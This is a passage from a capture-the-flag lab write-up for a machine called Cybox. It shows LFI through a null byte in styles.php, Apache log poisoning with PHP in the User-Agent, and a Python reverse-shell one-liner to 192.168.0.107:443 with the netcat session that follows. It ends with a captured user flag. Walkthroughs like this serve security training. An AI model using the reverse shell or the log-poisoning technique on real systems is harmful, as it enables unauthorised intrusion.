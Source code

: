 The `styles.php` has `style` as a get parameter which is used to get the files from server. This parameter is vulnerable to LFI attack using `NULL byte`.

![lfi](/assets/img/cybox/lfi.png)

# LFI to RCE using Log Poisoning

Log Poisoning is a common technique used to gain a reverse shell from an LFI vulnerability. To make it work an attacker attempts to inject malicious input into the server log. For that, we need to access the log file.

![dev2](/assets/img/cybox/dev2.png)

The server is installed in `/opt`. There fore the log file location is `/opt/bitnami/apache2/logs/access_log`
When we access the log file we can see that it contain logs of only `ftp.cybox.company`.

![access](/assets/img/cybox/access1.png)

## Inject the PHP code 
Inject the php code in User-Agent of `ftp.cybox.company`.

![phpinjection](/assets/img/cybox/phpinjection.png)

Access the payload from `/opt/bitnami/apache2/logs/access_log` and append `cmd` parameter for command injection. 

![phpinecjtion](/assets/img/cybox/phpinjection1.png)

Now get the reverse shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.107",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![rev](/assets/img/cybox/rev.png)
```
$sudo nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.108] 42864
/bin/sh: 0: can't access tty; job control turned off
$ ls
index.php
styles
styles.php
$ python -c 'import pty;pty.spawn("/bin/bash")'
python: /opt/bitnami/common/lib/libz.so.1: no version information available (required by python)
daemon@cybox:/opt/bitnami/apache2/htdocs/monitor/admin$ ^Z
[1]+  Stopped                 sudo nc -nvlp 443
┌─[✗]─[hitesh@parrot]─[~]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~]
└──╼ $sudo nc -nvlp 443

daemon@cybox:/opt/bitnami/apache2/htdocs/monitor/admin$
```
# User Flag
```
daemon@cybox:/home/cybox$ cat user.txt 
d85da08f1a31ef96fb6d4f608611bca2
```